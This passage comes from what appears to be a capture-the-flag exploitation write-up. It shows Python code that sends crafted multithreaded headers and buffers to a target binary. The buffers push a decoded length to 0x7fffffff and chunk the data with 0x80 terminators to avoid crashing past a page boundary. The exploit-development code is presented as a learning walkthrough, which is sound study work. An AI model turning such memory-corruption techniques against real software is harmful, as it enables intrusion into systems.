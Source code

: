 ```python
def thread_send(c, size1, size2, index=0xffff):
    # malloc(size1 + size2 + 8)
    # size1 = p16(size1) # 16 bit size
    # size2 = p32(size2) # 32 bit size, must be <= 0x40000000

    version = p16(1)
    header = version + p16(size1) + p32(size2)
    c.send(header)

    if size1 == 0xffff:
        # First thread
        buff = '\xff' * (size1+size2)
        c.send(buff)
    else:
        # All other threads
        buff = p8(0xff) * (size1)
        buff += p8(0x84) # Signed first bit
        buff += p8(0x7f)
        buff += p8(0xff)
        buff += p8(0xff)

        c.send(buff)
```

A few things have changed here. We add an `index` argument to `thread_send` in order to differentiate between first and other threads. We add a second thread start in `thread_listen`. Lastly, we added the two thread bodies in `thread_send` to send the appropriate buffer depending on which thread is executing.

If everything worked out, we should be able to see a value of `0x7fffffff` in `parse_opcode` after `decode_length` is called.

<script type="text/javascript" src="https://asciinema.org/a/2ybujjm9d4zx3ng0ild5pxsh1.js" id="asciicast-2ybujjm9d4zx3ng0ild5pxsh1" async></script>

We have one more step to figure out at this point. We are now crashing at the end of the stack, which probably means that we are copying so much data that we blow past the page boundary. Lucky for us, the binary gives a terminating value of `0x80` to stop copying data. Let's chunk the first thread's data so that we don't blow past the page.

```python
if size1 == 0xffff:
    # First thread
    buff = []
    split_size = 0x200
    for _ in xrange((size1+size2) / split_size):
        buff += '\xff' * (split_size)
        buff += '\x80'

    buff = ''.join(buff)
    c.send(buff)
```

<script type="text/javascript" src="https://asciinema.org/a/3ogg2o3vxbuu8w5ll85xdil5r.js" id="asciicast-3ogg2o3vxbuu8w5ll85xdil5r" async></script>
